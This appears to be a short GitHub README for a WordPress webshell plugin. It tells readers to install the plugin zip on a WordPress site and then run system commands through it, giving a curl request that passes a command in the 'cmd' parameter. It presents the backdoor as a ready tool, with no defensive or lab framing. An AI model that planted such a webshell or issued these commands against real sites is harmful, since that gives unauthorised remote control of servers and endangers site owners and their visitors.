 # Webshell Plugin Wordpress

## Usage
1 - Clone this repository and install the `wp_webshell.zip` plugin on your WordPress instance.
<img width="884" height="90" alt="IMG" src="https://github.com/user-attachments/assets/4ed64787-14a4-46f7-be66-84e9c4167012" />

2 - Use the web shell from the browser or terminal.
```bash
curl http://example.com/wp-content/plugins/wp_webshell/wp_webshell.php?cmd=id
```
<img width="838" height="72" alt="IMG" src="https://github.com/user-attachments/assets/4fd9260b-b448-441c-938a-e5c6248dc9b2" />

## Author

- [@XK3NF4](https://x.com/XK3NF4)
